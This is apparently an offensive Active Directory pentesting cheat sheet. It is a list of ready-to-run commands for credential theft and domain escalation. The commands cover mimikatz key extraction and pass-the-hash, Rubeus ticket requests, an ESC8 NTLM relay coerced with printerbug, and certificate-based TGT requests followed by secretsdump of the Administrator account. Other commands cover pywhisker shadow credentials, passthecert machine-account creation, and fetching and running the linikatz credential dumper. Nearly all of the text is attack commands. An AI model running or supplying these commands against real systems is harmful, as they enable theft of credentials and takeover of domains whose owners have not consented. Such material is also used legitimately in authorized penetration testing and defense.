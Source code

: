 **Misc**
````
- Convert ccache in kirbi or kirbi in ccache -
$ impacket-ticketConverter krb5cc_647401106_I8I133 <user>.kirbi
----------------------------------------------------------------------------------
- Linikatz -
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
$ /opt/linikatz.sh
````

### Pass the Key aka. OverPass the Hash

**Mimikaz**
````
- Extract Kerberos keys -
# privilege::debug
# sekurlsa::ekeys

Now that we have access to the AES256_HMAC and RC4_HMAC keys, we can perform the OverPass the Hash aka. Pass the Key

# privilege::debug
# sekurlsa::pth /domain:<domain> /user:<user> /ntlm:<rc4_hmac_nt>
This will create a new cmd.exe window that we can use to request access to any service we want in the context of the target user.
````
**Rubeus**
````
> Rubeus.exe asktgt /domain:<domain> /user:<user> /aes256:<aes256> /nowrap
````

### Pass the Certificate

**AD CS NTLM Relay Attack (ESC8)**
````
$ impacket-ntlmrelayx -t http://<IP-Server>/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
$ python3 printerbug.py <domain>/<user>:"<password>"@<IP-Server> <IP-Attacker>
````
**Get Ticket with Certificate**
````
$ python3 gettgtpkinit.py -cert-pfx <cert-gotit>.pfx -dc-ip <IP-DC> '<domain>/<user-certificate>' <file>.ccache
$ export KRB5CCNAME=<file>.ccache
$ impacket-secretsdump -k -no-pass -dc-ip <IP-DC> -just-dc-user Administrator '<domain>/<user-certificate>'@<IP>
````
**Shadow Credentials (msDS-KeyCredentialLink)**
````
https://github.com/ShutdownRepo/pywhisker
$ pywhisker --dc-ip <IP-DC> -d <domain> -u <user-controlled> -p '<password>' --target <user-target> --action add
$ python3 gettgtpkinit.py -cert-pfx <cert-gen-pywhisker>.pfx -pfx-pass '<pywhisker-pass>' -dc-ip <IP-DC> '<domain>/<user-certificate>' <file>.ccache
$ export KRB5CCNAME=/tmp/jpinkman.ccache
````
**PasstheCert**
````
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key
````
````
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 (Create a computer via LDAPS)
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -computer-pass SheSellsSeaShellsOnTheSeaShore (Create a computer via LDAPS with custom name/password)
````